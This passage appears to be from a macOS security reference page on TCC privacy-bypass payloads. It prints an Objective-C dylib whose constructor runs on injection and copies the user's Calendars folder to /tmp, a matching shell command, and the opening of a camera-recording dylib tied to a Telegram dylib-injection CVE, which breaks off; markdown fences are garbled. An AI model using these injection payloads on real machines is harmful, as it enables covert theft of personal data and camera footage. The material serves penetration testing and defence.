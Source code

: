 ```

**ObjectiveC**
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Calendars/"];
    NSString *tmpPhotosPath = @"/tmp/calendars";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
```

**Shell**
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

```bash
cp -r "$HOME/Library/Calendars" "/tmp/calendars"
```
```


### Camera

- **Entitlement**: `com.apple.security.device.camera`
- **TCC**: `kTCCServiceCamera`

**ObjetiveC - Record**
Record a 3s video and save it in **`/tmp/recording.mov`**

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from: https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
```